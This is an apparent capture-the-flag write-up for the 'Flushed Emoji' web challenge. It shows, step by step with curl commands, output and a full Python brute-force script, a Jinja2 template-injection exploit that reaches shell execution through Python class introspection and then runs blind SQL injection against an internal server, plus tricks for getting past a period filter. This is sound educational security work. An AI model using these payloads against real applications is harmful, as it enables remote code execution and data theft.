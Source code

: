 # Flushed Emoji
![](https://img.shields.io/badge/category-web-blue)
![](https://img.shields.io/badge/solves-49-orange)

## Description
Flushed emojis are so cool! Learn more about them [here](http://litctf.live:31781/)!

[FlushedEmojis.zip](https://drive.google.com/uc?export=download&id=1agW3a0-T4VsSJwJVTZ-dWSRLE_byxJya)

## Solution
In web challenges with source code, I usually like to check out the website first to see what it does. The home page has a button to launch the popup, containing a login form. Upon entering some dud credentials, it simply says `ok thank you for your info i have now sold your password (b) for 2 donuts :)`.

Weird, the password is returned back to us. That's definitely worth taking a look at, since websites don't normally do that.

That's all the website offered, so it was time to peek at the source code. Taking a look at `main-server/main.py`, it looks like it:
1. Blocks any requests with a `.` in the password.
2. Send a POST request to the other server with our username and password, but with non-alphanumeric characters stripped.
3. Returns a success message if the server returns "True"
4. Returns the fail message with our password in it otherwise (presumably "False")

The key is noticing that it returns `render_template_string` with our original password directly substituted in, meaning we can perform a SSTI attack.

To test this, we can try using `{{config}}` as the password, which would print the web app's configuration settings if it is vulnerable. Success!

![](https://user-images.githubusercontent.com/62577178/182054055-b7c532a4-e0a6-4fe7-9b18-4faa58649be2.png)

Looks like the config doesn't contain useful information, so it's more likely that we'll have to abuse the SSTI to gain remote code execution. Time to look at the other server.

In the data-server, there is a `/runquery` endpoint, which gets the JSON POST data, and executes unfiltered SQL on the username and password. This is not exploitable with a typical SQLi attack, since any quotes we insert into the username and password will get filtered. However, these rules don't apply to our remote code execution. This endpoint returns "True" if there is a matching record, and "False" otherwise. This means we'll need our exploit code to make the request to that endpoint, perform boolean SQL injection, and check the results. First though, we'll need to get remote code execution.

Since periods are banned, we can abuse some Python properties to access methods and attributes without using periods. Specifically:
- for some objects, `object["attribute_name"]` and `object["method_name"]()` work
- for other objects where that doesn't work, `getattr(object, "attribute_name")` and `getattr(object, "method_name")()` work

Additionally, we can use any loaded class, because Python provides `__mro__` to access a class's subclass, and `__subclasses__()` to access any subclasses of the current class. This means that by going up the `__mro__` chain, we will arrive at the `Object` class, which is the superclass of every other class.
```
$ curl -X POST -F username=a -F password='{{self["__mro__"]}}' http://litctf.live:31781/
ok thank you for your info i have now sold your password () for 2 donuts :)
$ curl -X POST -F username=a -F password='{{self["__class__"]["__mro__"]}}' http://litctf.live:31781/
ok thank you for your info i have now sold your password ((&lt;class &#39;jinja2.runtime.TemplateReference&#39;&gt;, &lt;class &#39;object&#39;&gt;)) for 2 donuts :)
$ curl -X POST -F username=a -F password='{{self["__class__"]["__mro__"][1]}}' http://litctf.live:31781/
ok thank you for your info i have now sold your password (&lt;class &#39;object&#39;&gt;) for 2 donuts :)
$ curl -X POST -F username=a -F password='{{self["__class__"]["__mro__"][1]["__subclasses__"]()}}' http://litctf.live:31781/
ok thank you for your info i have now sold your password ([&lt;class &#39;type&#39;&gt;, &lt;class &#39;weakref&#39;&gt;, &lt;class &#39;weakca...
```

In most related SSTI challenges, `subprocess.Popen` is what we're looking for. This is because it grants us remote code execution through `subprocess.Popen("command", stdout=-1, shell=True)["communicate"]()`. Through some trial and error, I determined that it existed at either index 247 or 250 (it changes between workers for some reason).

Thus, our exploit would be
```
username: anything
password: {{ self["__class__"]["__mro__"][1]["__subclasses__"]()[247 or 250]("command", stdout=-1, shell=True)["communicate"]() }}
```

Before we can perform the SQLi, it is necessary to find the IP of the data-server (it's redacted in the source code) as well as what tools are available at our disposal.

With `ls -l`:
```
ok thank you for your info i have now sold your password ((b&#39;total 20\n-rw-rw-r-- 1 root root 1212 Jul 20 19:38 main.py\n-rw-r--r-- 1 root root   24 Jul 20 02:13 requirements.txt\n-rwxrwxr-x 1 root root  351 Jul 20 19:38 run.sh\ndrwxrwxr-x 2 root root 4096 Jul 20 02:09 static\ndrwxrwxr-x 2 root root 4096 Jul 20 02:26 templates\n&#39;, None)) for 2 donuts :)
```
Looks like `main.py` is in our current directory. For the challenge to actually work, it must contain the uncensored IP.

With `cat main.py`:
```
lmao no way you have . in your password LOL
```
Oops, I forgot about the filter. Instead, we can `cat *`
```
... [some data omitted] ...
requests.post(\&#39;http://172.24.0.8:8080/runquery\&#39;
... [some data omitted] ...
```
Great, the remote server is at `http://172.24.0.8:8080/runquery`. Now, what tools are available?
```
which curl:
ok thank you for your info i have now sold your password ((b&#39;&#39;, None)) for 2 donuts :)

which wget:
ok thank you for your info i have now sold your password ((b&#39;&#39;, None)) for 2 donuts :)

which python3:
ok thank you for your info i have now sold your password ((b&#39;/usr/bin/python3\n&#39;, None)) for 2 donuts :)
```

Looks like we'll have to use Python to do our bidding. Before trying to get the full exploit, let's first write the Python command that will successfully perform SQLi against this data server locally. I used:
```py
import requests
print(requests.post('http://172.24.0.8:8080/runquery',
                    json={'username': "flag' and substr(password, 1, 1)='L'--", 'password': ''}).text)
```
This did have the intended effect, so now I had to get rid of the periods.
1. To get rid of the `requests.post` period, I simply changed `import requests` to `from requests import post` and called `post(url, data)` instead
2. To get rid of the periods in the url, I replaced them with `chr(46)`, becoming `'http://172'+chr(46)+'24'+chr(46)+'0'+chr(46)+'8:8080/runquery'`
3. To get rid of the `.text`, I tried replacing it with `['text']`, which didn't work, so instead, the entire post request had to be wrapped as `getattr(post(url, data), 'text')`

This results in:
```py
from requests import post
print(getattr(post('http://172'+chr(46)+'24'+chr(46)+'0'+chr(46)+'8:8080/runquery',
                    json={'username': "flag' and substr(password, 1, 1)='L'--", 'password': ''}), 'text'))
```

And in command form:
```python
python3 -c "from requests import post;print(getattr(post('http://172'+chr(46)+'24'+chr(46)+'0'+chr(46)+'8:8080/runquery', json={'username': \"flag' and substr(password, 1, 1)='L'--\", 'password': ''}), 'text'))"
```

Now, this needs to be executed in the context of the SSTI RCE, in which we run `subprocess.Popen("command", ...)`, so the command needs to be escaped again.

```python
subprocess.Popen("python3 -c \"from requests import post;print(getattr(post('http://172'+chr(46)+'24'+chr(46)+'0'+chr(46)+'8:8080/runquery', json={'username': \\\"flag' and substr(password, 1, 1)='L'--\\\", 'password': ''}), 'text'))\"", stdout=-1, shell=True)['communicate']()
```

And finally, this can be wrapped in the double braces and MRO/subclass hacking.

![image](https://user-images.githubusercontent.com/62577178/182056485-d6cba7fd-8760-489a-be3d-a2c87e21273e.png)

When bruteforcing, `POPEN_NUM` is to be replaced with 247 or 250, depending on which one is working, `IDX_J` is to be replaced with the index of the character we're guessing, and `LTR` is to be replaced with the character we're guessing.

```py
import requests

url = 'http://litctf.live:31781/'
flag = 'LITCTF{'
j = len(flag)+1

payload = '{{self[\'__class__\'][\'__mro__\'][1][\'__subclasses__\']()[POPEN_NUM]("python3 -c \\"from requests import post;print(getattr(post(\'http://172\'+chr(46)+\'24\'+chr(46)+\'0\'+chr(46)+\'8:8080/runquery\', json={\'username\': \\\\\\"flag\' AND substr(password, IDX_J, 1)=\'LTR\'--\\\\\\", \'password\': \'\'}), \'text\'))\\"", stdout=-1, shell=True)[\'communicate\']()}}'
"""
{{self['__class__']['__mro__'][1]['__subclasses__']()[247]("python3 -c \"from requests import post;print(getattr(post('http://172'+chr(46)+'24'+chr(46)+'0'+chr(46)+'8:8080/runquery', json={'username': \\\"flag' AND substr(password, 1, 1)='P'--\\\", 'password': ''}), 'text'))\"", stdout=-1, shell=True)['communicate']()}}
"""


while True:
 for i in range(ord(' '), 128):
  print(flag + chr(i))
  pay = payload.replace("IDX_J", str(j)).replace("LTR", chr(i)).replace("POPEN_NUM", "247");
  res = requests.post(url, data={'username': 'a', 'password': pay})
  if 'Internal Server Error' in res.text:
    print('index 247 broken, trying 250')
    pay = payload.replace("IDX_J", str(j)).replace("LTR", chr(i)).replace("POPEN_NUM", "250");
    res = requests.post(url, data={'username': 'a', 'password': pay})
  if 'True' in res.text:
    flag += chr(i)
    j += 1
```

This leaked the flag up until `LITCTF{flush3d_3m0ji_o`. For some reason, the next character just wasn't leaking, so I replaced it with a `?` and kept going.

`LITCTF{flush3d_3m0ji_o?0}`

At this point, I was utterly confused, until I remembered that any of my guesses with a period were being filtered, so the missing character was likely a period.

Flag: `LITCTF{flush3d_3m0ji_o.0}`

## Afterthoughts
After the CTF was over, I realized two things I could have done to make my life much easier.
1. Instead of directly substituting the guess character in and being susceptible to the filter, I should have used sqlite's hex filter to check the ascii code instead.
2. There was no need to go to such great lengths to avoid periods; all I had to do was replace them with `\x2E` as it would pass by the filter undetected, but get translated into a period when running code.
